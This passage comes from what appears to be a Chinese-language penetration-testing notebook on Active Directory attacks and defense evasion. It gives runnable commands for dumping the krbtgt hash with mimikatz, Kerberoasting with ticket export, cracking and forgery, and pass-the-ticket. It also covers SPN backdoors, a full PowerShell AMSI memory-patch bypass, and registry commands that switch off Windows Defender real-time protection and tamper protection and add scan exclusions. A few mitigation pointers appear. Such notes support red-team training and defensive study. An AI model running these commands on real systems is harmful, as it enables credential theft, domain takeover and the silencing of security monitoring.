[Session_key(Authenticator（[DomainName\Username,ServerName(DomainName\Server)]）)],[TGT（Krbtgt_ntlm_hash(k(c,tgs),Client_name(DomainName\Username),TGT_EndTime)）]
```

这样，我们就可以访问域内任意一台服务器.

**黄金票据的注意事项**

- Windows 事件日志不区分 TGT 的合法性，即黄金票据的行为隐蔽性高
- 伪造黄金票据的时候，可以离线生成，减少痕迹
- krbtgt 的密码被修改了，生成的黄金票据就会失效
- 未进行 DC 生成 TGT 之前的常规验证,从而绕过了 SmartCard 身份验证要求
- KDC 会验证 TGT 中的时间戳。域策略中修改 Kerberos Policy 中的存活周期，不会影响黄金票据。
- 被冒充的账户重置密码不会影响黄金票据的使用
- 黄金票据的有效期是十年，即使域管更改了密码，也可以对域内进行十年的权限维持（除了域的认证机制改变等因素）
- 可以使用禁用、删除的帐户进行冒充，甚至是在 Active Directory 中不存在的帐户

**常见域内账户 SID**

- 域用户 SID：S-1-5-21 -513
- 域管理员 SID：S-1-5-21 -512
- 架构管理员 SID：S-1-5-21 -518
- 企业管理员 SID：S-1-5-21 -519（只有在域林根域中伪造票据时才有效，用 AD 域林管理员权限添加就使用 `/sids` 参数）
- 组策略创建者所有者 SID：S-1-5-21 -520

**黄金票据特点**

1. 需要与 DC 通信
2. 需要 krbtgt 用户的 hash
3. 从攻击面来看，获取 krbtgt 用户的 hash 后，可以在域中进行持久性的隐藏，并且日志无法溯源，但是需要拿到 DC 权限，使用黄金票据能够在一个域环境中长时间控制整个域。
4. 从防御角度来看，需要经常更新 krbtgt 的密码，才能够使得原有的票据失效。最根本的办法是不允许域管账户登录其他服务器。

**黄金票据的攻击流程**

可以通过使用 mimikatz 的 DCSync 获取伪造黄金票据需要的 krbtgt 账号的 hash。该方法中，mimikatz 会模拟域控，向目标域控请求密码账号，不用登录域控，也不用提取 NTDS.DIT 文件。但是该操作需要域管在或者其他高权限账户下进行。

mimikatz 的 Golden_Tickets 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#Golden_Tickets)

**其他途径**
- https://pentestlab.blog/tag/dcsync/

获取 krbtgt 账户就直接跳过获取 krbtgt 哈希的步骤。
1. 使用 meterpreter 的 kiwi 扩展可以导出：`dcsync_ntlm krbtgt`
2. mimikatz 可以在域控的本地安全认证(Local Security Authority)上直接读取 `mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt"`
3. 将域控中的 ntds.dit 复制出来，使用其他工具解析

##### 白银票据与黄金票据的不同点

**访问权限不同**
- Golden Ticket: 伪造 TGT,可以获取任何 Kerberos 服务权限
- Silver Ticket: 伪造 TGS,只能访问指定的服务

**加密方式不同**
- Golden Ticket 由 Kerberos 的 Hash 加密
- Silver Ticket 由服务账号(通常为计算机账户)Hash 加密

**认证流程不同**
- Golden Ticket 的利用过程需要访问域控,而 Silver Ticket 不需要

**生成的票据**
- Golden Ticket 生成 TGT 票据
- Silver Ticket 生成 TGS 票据

---

#### NTLM中继

- [NTLM中继](./实验/NTLM中继.md)

---

#### NTLMv1 攻击面

**相关文章**
- [NTLMv1 vs NTLMv2: Digging into an NTLM Downgrade Attack](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)
- [Elevating with NTLMv1 and the Printer Bug](https://www.fortalicesolutions.com/posts/elevating-with-ntlmv1-and-the-printer-bug)
- [PRACTICAL ATTACKS AGAINST NTLMV1](https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/)

---

#### Kerberoasting

`Kerberos TGS 票据离线破解`

**相关文章**
- [Kerberoasting Attacks and Detections](https://medium.com/@bubba7988/kerberoasting-attacks-and-detections-28c81ef98503)
- https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting
- [域渗透——Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)
- [Kerberos协议之Kerberoasting和SPN](https://y4er.com/posts/kerberos-kerberoasting-spn/)

**描述**

服务票据使用服务账户的 NTLM Hash 加密，不用获取运行该服务系统的 shell，任何域用户就可以转储 Hash

在 TGS-REP 过程中，TGS 收到请求后，会将 Client-To-Server Ticket（也称为 ST 票据，Client-To-Server Ticket 由Server 密钥加密）、sessionkey_tgs 返回给 Client。当配置 Kerberos 允许的加密类型是 RC4-HMAC_MD5 时，就可以爆破 Client 端获取的 Client-To-Server Ticket，从而获得服务端服务账户的密码。

破解 Kerberos 服务票据（Client-To-Server Ticket）并重写它们，从而获得目标服务的访问权限的过程叫做 Kerberoast。该过程不需要和目标服务进行交互操作，合法访问活动目录的活动，就可以请求服务票据并导出，进行脱机破解得到服务账户的明文密码。

Kerberoast 攻击涉及五个步骤：
- SPN 扫描
- 请求 Client-To-Server Ticket
- 导出 Client-To-Server Ticket
- 破解 Client-To-Server Ticket
- 重写 Client-To-Server Ticket, 进行内存注入

进行 Kerberoast 攻击时，需要注意以下几点因素：

- 目标 SPN 服务是注册在域用户账户(Users)下
- 域用户账户的权限很高
- 密码最后设置时间
- 密码到期时间
- 最后一次登录时间
    ```
    net user administrator /domain  可查看
    ```

**spn 介绍**
- [spn](../../../Integrated/Windows/笔记/认证.md#spn)

**spn 扫描**
- [spn 扫描](../信息收集/信息收集.md#spn扫描)

##### 获得高价值的SPN

攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

需要满足以下条件：
- 该SPN注册在域用户帐户(Users)下
- 域用户账户的权限很高

**使用powershell模块Active Directory**

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll 在安装 powershell 模块 Active Directory 后会生成，直接在域控上环境就能复制一个出来

也可以用github上现成的
- https://github.com/3gstudent/test/blob/master/Microsoft.ActiveDirectory.Management.dll

**使用PowerView**

- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
    ```
    Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon
    ```

**使用kerberoast**

powershell:
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1

vbs:
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs

参数如下：
```
cscript GetUserSPNs.vbs
```

##### 请求/导出TGS

**请求指定的 TGS**

根据微软提供的类 KerberosRequeststorSecurityToken 发起 Kerberos 请求申请票据,:
```bash
$SPNName = 'MSSQLSvc/DC1.test.com'
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

**请求所有 TGS**

```bash
Add-Type -AssemblyName System.IdentityModel
setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

使用 klist 命令查看当前会话存储的 Kerberos 票据：
```bash
klist
```

**导出**

使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```bash
kerberos::list /export
```

**破解**

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```bash
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi
```

Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```bash
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -g 512
```

```bash
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

##### Without Mimikatz

**相关文章**
- [Kerberoasting Without Mimikatz](https://web.archive.org/web/20220212163642/https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)

Empire 实现的 Invoke-Kerberoast 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

**导出**
- **Invoke-Kerberoast**

    可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
    ```powershell
    Import-Module .\Invoke-Kerberoast.ps1
    Invoke-Kerberoast -Outputformat Hashcat | fl > test1.txt
    ```

    导出高权限的用户
    ```powershell
    Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
    ```

    只提取出 hash 的命令：
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
    ```

- **Rubeus**
    - https://github.com/GhostPack/Rubeus
        ```
        Rubeus.exe kerberoast
        ```

- **GetUserSPN**
    - https://github.com/maaaaz/impacket-examples-windows/
    - https://github.com/SecureAuthCorp/impacket

    使用 impacket 中的 GetUserSPN.py 也可以获取
    ```powershell
    python .\GetUserSPNs.py -request -dc-ip 172.16.33.3 -debug test.local/jack
    ```

- 也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

**解密**
```bash
# 使用 hashcat 解密
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force   # 使用字典
hashcat -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l   # 使用掩码

# 使用 john 破解
./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt
./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

##### 后利用

在我们取得了 SPN 的修改权限后，可以为指定的域用户添加一个 SPN，这样可以随时获得该域用户的 TGS，经过破解后获得明文口令

例如为域用户 Administrator 添加 SPNVNC/DC1.test.com，参数如下：
```
setspn.exe -U -A VNC/DC1.test.com Administrator
```

这样在域内任意一台主机都能获得该 SPN，并且能够使用 Kerberoast 获得 TGS
```
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
```
再使用 hashcat 破解即可

当需要删除 SPN 的时候，使用如下命令：
```
setspn.exe -D VNC/DC1.test.com Administrator
```

##### 缓解措施

- [kerberoast 缓解措施](../../../Integrated/Windows/Secure-Win.md#kerberoast-缓解措施)

---

#### 委派

关于委派的基本知识点可见笔记 [认证](../../../Integrated/Windows/笔记/认证.md#委派)

##### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION.

当被设置为约束性委派时，其 `userAccountControl` 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 `msDS-AllowedToDelegateTo` 属性会包含被约束的服务.

加载 powerview，查询非约束性委派账户：
```powershell
Get-NetUser -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询非约束性委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain ffffffff0x.com

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain ffffffff0x.com
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。

##### 非约束委派 (TrustedForDelegation)

**描述**

委派就是将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。将我的权限给服务账户。

需要注意的一点是接受委派的用户只能是服务账户或者计算机用户

**相关文章**
- [Kerberos协议之非约束委派](https://y4er.com/posts/kerberos-unconstrained-delegation/)
- [Exploiting Unconstrained Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

**配合 MS-RPRN abuse**
- [MS-RPRN abuse](./实验/NTLM中继.md#ms-rprn-abuse)

##### 约束委派 (S4U2Proxy) / 协议转换 (S4U2Self/TrustedToAuthForDelegation)

**描述**

因为非约束委派的不安全性，约束委派应运而生。在 2003 之后微软引入了非约束委派，对 Kerberos 引入 S4U，包含了两个子协议 S4U2self、S4U2proxy。S4U2self 可以代表自身请求针对其自身的 Kerberos 服务票据 (ST)，S4U2proxy 可以以用户的名义请求其它服务的 ST，约束委派就是限制了 S4U2proxy 扩展的范围。



具体过程是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的 kerberos 服务票据 (S4U2SELF)，拿着这个票据向 KDC 请求访问特定服务的可转发的 TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务。

**相关文章**
- [Kerberos协议之约束委派](https://y4er.com/posts/kerberos-constrained-delegation/)

**查找约束委派的用户**
```
AdFind.exe -b dc=test,dc=local -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
```

查找约束委派的主机
```
(&(samAccountType=805306369)(msds-allowedtodelegateto=*))
```

##### 基于资源的约束委派 (RBCD)

**描述**

Windows Server 2012中引入了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。

**相关文章**
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [Kerberos协议之基于资源的约束委派](https://y4er.com/posts/kerberos-resource-based-constrained-delegation/)

#### Kerberos Bronze Bit Attack

**相关文章**
- [Kerberos Bronze Bit Attack 绕过约束委派限制](https://y4er.com/posts/kerberos-bronze-bit-attack/)

---

## 对抗

### AMSI

**什么是 AMSI**

AMSI(Antimalware Scan Interface) ，在内存中扫描恶意代码并且可以转发至 av 用于检测恶意程序执行，具体 API 落于 amsi.dll。

AMSI 内置于 Powershell 中，所以会经常见到很多 Powershell 恶意利用都需要先去 bypass AMSI

**相关文章**
- [初探Powershell与AMSI检测对抗技术](https://www.anquanke.com/post/id/168210)
- [How to bypass Defender in a few easy steps](https://arty-hlr.com/blog/2021/05/06/how-to-bypass-defender/)
- [文本类型的免杀](https://mp.weixin.qq.com/s/xwjjP5OrrxCfazBf6i_J1g)

**相关工具**
- [Flangvik/NetLoader](https://github.com/Flangvik/NetLoader) - Loads any C# binary in mem, patching AMSI + ETW.
- [mdsecactivebreach/SharpPack](https://github.com/mdsecactivebreach/SharpPack) - SharpPack is a toolkit for insider threat assessments that lets you defeat application whitelisting to execute arbitrary DotNet and PowerShell tools.

**改变调查结果**

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32
$test = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($test))
$test2 = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$Address = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($test2))
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3)
#0:  31 c0                   xor    eax,eax
#2:  05 78 01 19 7f          add    eax,0x7f190178
#7:  05 df fe ed 00          add    eax,0xedfedf
#c:  c3                      ret
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, $Patch.Length)
```

---

### ETW

**什么是 ETW**

ETW(Event Trace for Windows) 是一个高效的内核级别的事件追踪机制，它可以记录系统内核或是应用程序的事件 (进程、文件、网络、注册表等行为) 到 Windows 日志文件， Process Monitor 工具以及大名鼎鼎的 Sysmon 也是基于 ETW 进行事件跟踪，有很多的 EDR 都是基于该数据源进行检测。

**相关文章**
- [Design Issues Of Modern EDRs: Bypassing ETW-Based Solutions](https://www.binarly.io/posts/Design_issues_of_modern_EDRs_bypassing_ETW-based_solutions/index.html)
- [两种最新Bypass ETW的方法](https://www.anquanke.com/post/id/202797)
- [基于内存补丁ETW的绕过](https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw)
- [Hiding your .NET - ETW](https://blog.xpnsec.com/hiding-your-dotnet-etw/)

### UAC

**相关文章**
- [Advanced Windows Task Scheduler Playbook - Part.2 UAC](https://mp.weixin.qq.com/s/3H6krW59Sci5SsA_5fyOzw)
    - https://github.com/zcgonvh/TaskSchedulerMisc

**相关项目**
- [zha0gongz1/iscsicpl_bypassUAC](https://github.com/zha0gongz1/iscsicpl_bypassUAC) - UAC bypass for x64 Windows 7 - 11（无弹窗版）

### DLL 劫持

**相关文章**
- [x64dbg中的白加黑利用](https://payloads.online/archivers/2022-08-17/1/)
    - https://github.com/Rvn0xsy/Invoke-x64dbg-loaddll
- [DEFCON议题解读｜Dll劫持新思路——修改环境变量](https://mp.weixin.qq.com/s/S1yA8M_0EMUBNScxd9NWjw)
- [dll 劫持和应用](https://paper.seebug.org/1713/)
- [Backdooring MSBuild - marpie (a12d404.net)](https://www.a12d404.net/ranting/2021/01/17/msbuild-backdoor.html)
- https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-security

**相关工具**
- [strivexjun/AheadLib-x86-x64](https://github.com/strivexjun/AheadLib-x86-x64) - hijack dll Source Code Generator. support x86/x64

**相关项目**
- [wietze/HijackLibs](https://github.com/wietze/HijackLibs)
    - https://hijacklibs.net

---

### PatchGuard

**相关工具**
- [everdox/InfinityHook](https://github.com/everdox/InfinityHook) - Hook system calls, context switches, page faults and more.
- [hfiref0x/UPGDSED](https://github.com/hfiref0x/UPGDSED) - Universal PatchGuard and Driver Signature Enforcement Disable

---

### Hook

#### D/Invoke

**相关文章**
- [破局P/Invoke，D/Invoke隐匿技术与武器化实现剖析](https://mp.weixin.qq.com/s/aqDnt211GL1v-BfO41SJSQ)
- [Emulating Covert Operations - Dynamic Invocation (Avoiding PInvoke & API Hooks)](https://thewover.github.io/Dynamic-Invoke/)
- [Syscalls with D/Invoke](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)

---

## BitLocker

**相关工具**
- [e-ago/bitcracker](https://github.com/e-ago/bitcracker) - BitCracker is the first open source password cracking tool for memory units encrypted with BitLocker
    - [BitCracker：BitLocker密码破解工具](https://www.freebuf.com/sectool/185006.html)

**BitLocker 磁盘文件解密**
- 使用 FTK Imager 挂载目标盘,例如挂载到 E:
    ```
    manage-bde -unlock [盘符] -RecoveryPassword [恢复密钥]
    manage-bde -unlock E: -RecoveryPassword xxxxxx-xxxxxx-xxxxxx-xxxxxx-xxxxxx-xxxxxx-xxxxxx-xxxxxx
    ```
- diskgenius 也可以解锁

---

## Windows Defender

**相关文章**
- [渗透基础——Windows Defender](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-Defender)

**查看Windows Defender版本**
```
dir "C:\ProgramData\Microsoft\Windows Defender\Platform\" /od /ad /b
```

**查看已存在的查杀排除列表**
```bash
# 注册表方式查看
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s

# powershell 方式查看
Get-MpPreference | select ExclusionPath
```

**关闭 Windows Defender**
```bash
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f
# 之后重启电脑应用修改

# 取消关闭(实测,部分场景会自动开启)
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /f
```

### Tamper Protection

- https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide

当开启Tamper Protection时，用户将无法通过注册表、Powershell和组策略修改Windows Defender的配置

开启Tamper Protection的方法：依次选择Windows Security->Virus & theat protection settings，启用Tamper Protection
```bash
# 注册表方式开启
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 5 /t REG_DWORD /f
```

关闭Tamper Protection的方法：依次选择Windows Security->Virus & theat protection settings，禁用Tamper Protection
```bash
# 注册表方式关闭
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 4 /t REG_DWORD /f
```

无法通过修改注册表的方式去设置Tamper Protection，只能通过面板进行修改

查看Tamper Protection的状态：
```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection"
```

返回结果中的数值5代表开启，数值4代表关闭

### 关闭Windows Defender的Real-time protection

利用条件：
- 需要 TrustedInstaller 权限
- 需要关闭 Tamper Protection

```bash
# 注册表方式关闭
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f

# 注册表方式开启
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /f

# 使用 AdvancedRun 关闭
AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run

# powershell 方式关闭(新版不可用❌)
Set-MpPreference -DisableRealtimeMonitoring $true

# 组策略关闭(新版不可用❌)
gpedit.msc->Computer Configuration->Administrative Templates->Windows Components->Microsoft Defender Antivirus->Real-time Protection，选择Turn off real-time protection，配置成Enable
```

### 添加查杀排除列表

- https://docs.microsoft.com/en-us/powershell/module/defender/add-mppreference?view=windowsserver2022-ps

利用条件：
- (注册表)需要TrustedInstaller权限
- (powershell)需要管理员权限

```bash
# 注册表方式添加
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\test" /d 0 /t REG_DWORD /f

# powershell 方式添加
Add-MpPreference -ExclusionPath "C:\test"
# powershell 方式删除
Remove-MpPreference -ExclusionPath "C:\test"
```

### 恢复被隔离的文件

- https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/command-line-arguments-microsoft-defender-antivirus?view=o365-worldwide

定位MpCmdRun
```bash
dir "C:\ProgramData\Microsoft\Windows Defender\Platform\" /od /ad /b
```

获得 `<antimalware platform version>`

MpCmdRun 的位置为：`C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware platform version>`

```bash
# 查看被隔离的文件列表
MpCmdRun -Restore -ListAll

# 恢复指定名称的文件至原目录：
MpCmdRun -Restore -FilePath C:\test\xxxxx.zip

# 恢复所有文件至原目录：
MpCmdRun -Restore -All

# 查看指定路径是否位于排除列表中：
MpCmdRun -CheckExclusion -path C:\test
```

### 移除Token导致Windows Defender失效

Windows Defender进程为MsMpEng.exe,MsMpEng.exe是一个受保护的进程(Protected Process Light，简写为PPL)

非 PPL 进程无法获取 PPL 进程的句柄，导致我们无法直接结束 PPL 进程 MsMpEng.exe, 但是我们能够以 SYSTEM 权限运行的线程修改进程 MsMpEng.exe 的 token, 当我们移除进程 MsMpEng.exe 的所有 token 后，进程 MsMpEng.exe 无法访问其他进程的资源，也就无法检测其他进程是否有害，最终导致 Windows Defender 失效

- https://github.com/pwn1sher/KillDefender
- https://github.com/Octoberfest7/KillDefender

利用条件：
- 需要管理员权限



**防御手段**
- https://github.com/elastic/PPLGuard

### ASR 规则

**关于 ASR 规则**
- https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide

**相关资源**
- [HackingLZ/ExtractedDefender](https://github.com/HackingLZ/ExtractedDefender)
- https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3

**相关文章**
- [Extracting Whitelisted Paths from Windows Defender ASR Rules](https://adamsvoboda.net/extracting-asr-rules/)

### VDM 文件提取

Windows Defender 签名/规则存储在 VDM 容器中。其中许多只是 Lua 脚本文件。可以使用 WDExtract 等工具从这些容器中解密和提取所有 PE 图像。

**关于 VDM 格式**
- https://github.com/commial/experiments/tree/master/windows-defender/VDM

**相关工具**
- [hfiref0x/WDExtract](https://github.com/hfiref0x/WDExtract) - Extract Windows Defender database from vdm files and unpack it
- https://github.com/commial/experiments/tree/master/windows-defender/lua
